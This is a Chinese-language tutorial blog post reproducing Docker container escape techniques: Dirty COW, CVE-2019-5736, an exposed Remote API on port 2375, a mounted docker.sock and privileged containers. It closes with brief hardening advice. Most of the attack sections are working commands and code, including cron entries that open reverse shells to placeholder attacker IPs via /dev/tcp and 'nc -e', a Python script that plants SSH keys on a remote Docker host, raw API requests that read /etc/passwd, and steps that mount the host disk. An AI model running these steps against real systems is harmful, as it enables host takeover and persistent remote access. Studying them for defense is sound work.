> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/whatday/article/details/107539277/)

**目录**

[前言](#t0)

[Docker 逃逸原因](#t1)

[docker 环境判断](#t2)

[实验环境](#t3)

[环境搭建](#t4)

[内核漏洞](#t5)

[Dirty COW 漏洞逃逸](#t6)

[容器服务缺陷](#t7)

[CVE-2019-5736 漏洞逃逸](#t8)

[配置不当引发的 docker 逃逸](#t9)

[1、emote api 未授权访问](#t10)

[2、docker.sock 挂载到容器内部](#t11)

[3、特权模式](#t12)

[防御 docker 逃逸](#t13)

[参考文章](#t14)

前言
==

前不久看到几篇实战文章用到了 docker 逃逸技术，自己之前没接触过，整理复现下常用的 Docker 逃逸方法，可能存在认知错误的地方，希望各位大佬指出，感激不尽。

Docker 是当今使用范围最广的开源容器技术之一，具有高效易用的优点。然而如果使用 Docker 时采取不当安全策略，则可能导致系统面临安全威胁。

Docker 逃逸原因
-----------

目前的 Docker 逃逸的原因可以划分为三种：

由内核漏洞引起 ——Dirty COW(CVE-2016-5195)  
由 Docker 软件设计引起——CVE-2019-5736、CVE-2019-14271  
由配置不当引起——开启 privileged（特权模式）+ 宿主机目录挂载（文件挂载）、功能（capabilities）机制、sock 通信方式

docker 环境判断
===========

实战中首先需要判断服务器是否为 docker 环境。常用的判断方法有两种。  
1、是否存在. dockerenv 文件  
docker 环境下存在：ls -alh /.dockerenv 文件

非 docker 环境，没有. dockerenv 文件


2、查询系统进程的 cgroup 信息  
docker 环境下 cat /proc/1/cgroup




非 docker 环境下 cat /proc/1/cgroup



实验环境
====

宿主机：阿里云 centos8  
Docker 版本：18.06.0-ce  
镜像版本：centos7

环境搭建
----

centos 下运行 sh 文件  
[https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/](https://links.jianshu.com/go?to=https%3A%2F%2Fgist.githubusercontent.com%2Fthinkycx%2Fe2c9090f035d7b09156077903d6afa51%2Fraw%2F) 


自动安装 docker 环境，运行 centos 和 ubuntu 镜像

查看容器

```
docker ps -a
docker ps -a -q # 查看哪些是停止状态的容器
```


启动容器

```
docker start 容器ID
```



进入容器

```
docker exec -ti 容器ID /bin/bash
```



内核漏洞
====

Dirty COW 漏洞逃逸
--------------

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，源于 Linux 内核的内存子系统在处理写入时拷贝（copy-on-write, Cow）存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。  
竞争条件意为任务执行顺序异常，可能导致应用崩溃或面临攻击者的代码执行威胁。利用该漏洞，攻击者可在其目标系统内提升权限，甚至获得 root 权限。VDSO 就是 Virtual Dynamic Shared Object（虚拟动态共享对象），即内核提供的虚拟. so。该. so 文件位于内核而非磁盘，程序启动时，内核把包含某. so 的内存页映射入其内存空间，对应程序就可作为普通. so 使用其中的函数。  
在容器中利用 VDSO 内存空间中的 “clock_gettime() ” 函数可对脏牛漏洞发起攻击，令系统崩溃并获得 root 权限的 shell，且浏览容器之外主机上的文件。  
docker 和宿主机共享内核，搭建的阿里云环境不存在 Dirty Cow 漏洞，可以使用存在漏洞的宿主机搭建，也可以使用 i 春秋的靶机进行复现。[https://www.ichunqiu.com/experiment/detail?id=100297&source=2](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.ichunqiu.com%2Fexperiment%2Fdetail%3Fid%3D100297%26source%3D2)

1、运行 docker 镜像

```
docker run --name=test -p 1234:1234 -itd dirtycow /bin/bash   //使用本地1234端口连接docker的1234端口运行dirtycow镜像，并将其临时命名为test
```

2、进入镜像内部操作

```
docker exec -it test /bin/bash 
```


3、运行漏洞 exp  
下载地址：[https://github.com/scumjr/dirtycow-vdso](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fscumjr%2Fdirtycow-vdso)

```
cd /dirtycow-vdso/    //进入dirtycow-vdso文件夹
make       //使用make命令编译.c文件
./0xdeadbeef     //运行0xdeadbeef 文件
```

显示 successfully 表示成功。 



成功获取到宿主机的 shell。



容器服务缺陷
======

CVE-2019-5736 漏洞逃逸
------------------

1、漏洞原理：  
Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改掉 runc 的二进制文件，从而获取到宿主机的 root 执行权限。  
2、影响版本：  
平台或产品 受影响版本  
Docker Version < 18.09.2  
runC Version <= 1.0-rc6  
3、漏洞复现  
首先编译 go 脚本，生成攻击 payload  
[https://github.com/Frichetten/CVE-2019-5736-PoC](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2FFrichetten%2FCVE-2019-5736-PoC)  
修改脚本中的反弹地址为自己 vps 地址。


编译生成 payload  
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go


将编译好的文件拷贝到 docker 容器中。

```
docker cp main 78e0d8daa906:/home
docker exec -it 78e0d8daa906 /bin/bash
cd /home/
chmod 777 main
```


运行 main 文件，使用 nc 监听反弹的端口，等待启动 docker




nc 接收到反弹的 shell



由于容器服务缺陷导致的逃逸还包括 Docker cp CVE-2019-14271 和 Docker build code execution CVE-2019-13139，利用起来都具有一定的限制条件，具体原理和利用可参考：  
[https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/](https://links.jianshu.com/go?to=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdocker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271%2F)  
[https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/](https://links.jianshu.com/go?to=https%3A%2F%2Fstaaldraad.github.io%2Fpost%2F2019-07-16-cve-2019-13139-docker-build%2F)

配置不当引发的 docker 逃逸
=================

1、emote api 未授权访问
-----------------

docker swarm 是管理 docker 集群的工具。主从管理、默认通过 2375 端口通信。绑定了一个 Docker Remote API 的服务，可以通过 HTTP、Python、调用 API 来操作 Docker。  
当使用官方推荐启动方式时

```
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

在没有其他网络访问限制的主机上使用，则会在公网暴漏端口。





漏洞利用：  
1、首先列出所有容器，得到 id 字段

```
http://x.x.x.x:2375/containers/json
```



2、然后创建一个 exec

```
POST /containers/<container_id>/exec HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json
Content-Length: 188
 
{
  "AttachStdin": true,
  "AttachStdout": true,
  "AttachStderr": true,
  "Cmd": ["cat", "/etc/passwd"],
  "DetachKeys": "ctrl-p,ctrl-q",
  "Privileged": true,
  "Tty": true
}
```

使用 burp 模拟 post 请求发包，得到返回的 id 参数。


3、启动 exec, 成功执行了系统命令，读取到了 passwd 文件。

```
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json
 
{
 "Detach": false,
 "Tty": false
}
```


成功获取到 docker 主机的命令执行权限，但是还无法逃逸到宿主机。  
尝试通过写计划任务或者写 ssh 密钥得到宿主机权限  
1、在容器内安装 Docker 作为 client（可能需要换国内源）

```
apt-get install docker.io
```

2、查看宿主机 docker 镜像信息

```
docker -H tcp://x.x.x.x:2375 images
```



3、启动一个容器并将宿主机根目录挂在到容器的 nuoyan 目录

```
docker -H tcp://x.x.x.x:2375 run -it -v /:/nuoyan adafef2e596e /bin/bash 
```


4、写计划任务反弹 shell

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/8877 0>&1' >> /nuoyan/var/spool/cron/root
```



5、成功获取到宿主机 shell，逃逸成功。


还可以使用师傅们写好的 python 脚本  
写 ssh 密钥

```
# coding:utf-8
import docker
import socks
import socket
import sys
import re
 
#开启代理
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 1081)
#socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 1081)
socket.socket = socks.socksocket
 
ip = '172.16.145.165'
cli = docker.DockerClient(base_url='tcp://'+ip+':2375', version='auto') 
#端口不一定为2375，指定version参数是因为本机和远程主机的API版本可能不同，指定为auto可以自己判断版本
image = cli.images.list()[0]
 
#读取生成的公钥
f = open('id_rsa_2048.pub', 'r')
sshKey = f.read()
f.close()
 
try:
    cli.containers.run(
        image=image.tags[0], 
        command='sh -c "echo '+sshKey+' >> /usr/games/authorized_keys"', #这里卡了很久，这是正确有效的写法，在有重定向时直接写命令是无法正确执行的，记得加上sh -c
        volumes={'/root/.ssh':{'bind': '/usr/games', 'mode': 'rw'}}, #找一个基本所有环境都有的目录
        name='test' #给容器命名，便于后面删除
    )
except docker.errors.ContainerError as e:
    print(e)
 
#删除容器
try:
    container = cli.containers.get('test')
    container.remove()
except Expection as e:
    continue
```

写计划任务 (by P 牛)

```
import docker
 
client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

2、docker.sock 挂载到容器内部
---------------------

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon 扮演，二者之间通信方式有以下 3 种：

```
1、unix:///var/run/docker.sock
2、tcp://host:port
3、fd://socketfd
```

其中使用 docker.sock 进行通信为默认方式，当容器中进程需在生产过程中与 Docker 守护进程通信时，容器本身需要挂载 / var/run/docker.sock 文件。  
本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。  
因此，当容器访问 docker socket 时，我们可通过与 docker daemon 的通信对其进行恶意操纵完成逃逸。若容器 A 可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。  
利用过程：  
1、首先运行一个挂载 / var/run / 的容器

```
docker run -it -v /var/run/:/host/var/run/ adafef2e596e /bin/bash
```



2、寻找下挂载的 sock 文件

```
find / -name docker.sock
```


3、在容器内安装 Docker 作为 client（可能需要换国内源）

```
apt-get install docker.io
```

4、查看宿主机 docker 信息

```
docker -H unix:///host/var/run/docker.sock info
```


5、运行一个新容器并挂载宿主机根路径

```
docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash 
```


6、在新容器 / nuoyan 路径下完成对宿主机资源的访问



7、写入计划任务文件，反弹 shell

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /nuoyan/var/spool/cron/root 
```



成功接收到宿主机反弹的 shell



3、特权模式
------

特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。  
使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 docker run —privileged 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。  
当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。  
利用过程：  
1、首先以特权模式运行一个 docker 容器

```
docker run -it --privileged d27b9ffc5667 /bin/bash
```



2、查看磁盘文件

```
fdisk -l 
```


3、vda1 存在于 / dev 目录下


4、新建一个目录, 将 / dev/vda1 挂载至新建的目录

```
mkdir /nuoyan
mount /dev/vda1 /nuoyan
```


5、写入计划任务到宿主机

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /nuoyan/var/spool/cron/root
```


6、开启 nc 监听，成功接收到宿主机反弹的 shell


防御 docker 逃逸
============

> 1、更新 Docker 版本到 19.03.1 及更高版本——CVE-2019-14271、覆盖 CVE-2019-5736  
> 2、runc 版本 > 1.0-rc6  
> 3、k8s 集群版本 > 1.12  
> 4、Linux 内核版本 >=2.6.22——CVE-2016-5195(脏牛)  
> 5、Linux 内核版本 >=4.14——CVE-2017–1000405(大脏牛)，未找到 docker 逃逸利用过程，但存在逃逸风险  
> 6、不建议以 root 权限运行 Docker 服务  
> 7、不建议以 privileged（特权模式）启动 Docker  
> 8、不建议将宿主机目录挂载至容器目录  
> 9、不建议将容器以—cap-add=SYSADMIN 启动，SYSADMIN 意为 container 进程允许执行 mount、umount 等一系列系统管理操作，存在容器逃逸风险

参考文章
====

> [https://www.freebuf.com/company-information/205006.html](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.freebuf.com%2Fcompany-information%2F205006.html)  
> [https://xz.aliyun.com/t/6167](https://links.jianshu.com/go?to=https%3A%2F%2Fxz.aliyun.com%2Ft%2F6167)  
> [https://compass.zhongan.io/blog/?p=111](https://links.jianshu.com/go?to=https%3A%2F%2Fcompass.zhongan.io%2Fblog%2F%3Fp%3D111)  
> [https://cloud.tencent.com/developer/article/1512483](https://links.jianshu.com/go?to=https%3A%2F%2Fcloud.tencent.com%2Fdeveloper%2Farticle%2F1512483)  
> [https://blog.csdn.net/lhh134/article/details/104107776](https://links.jianshu.com/go?to=https%3A%2F%2Fblog.csdn.net%2Flhh134%2Farticle%2Fdetails%2F104107776)  
> [https://xz.aliyun.com/t/7881](https://links.jianshu.com/go?to=https%3A%2F%2Fxz.aliyun.com%2Ft%2F7881)  
> [https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/](https://links.jianshu.com/go?to=https%3A%2F%2Fgist.githubusercontent.com%2Fthinkycx%2Fe2c9090f035d7b09156077903d6afa51%2Fraw%2F)  
> [https://www.anquanke.com/post/id/193218](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.anquanke.com%2Fpost%2Fid%2F193218)  
> [https://zhuanlan.zhihu.com/p/93104462](https://links.jianshu.com/go?to=https%3A%2F%2Fzhuanlan.zhihu.com%2Fp%2F93104462)  
> [https://www.secpulse.com/archives/45905.html](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.secpulse.com%2Farchives%2F45905.html)  
> [https://compass.zhongan.io/blog/?p=111](https://links.jianshu.com/go?to=https%3A%2F%2Fcompass.zhongan.io%2Fblog%2F%3Fp%3D111)  
> [https://blog.csdn.net/github_37216944/article/details/80535541](https://links.jianshu.com/go?to=https%3A%2F%2Fblog.csdn.net%2Fgithub_37216944%2Farticle%2Fdetails%2F80535541)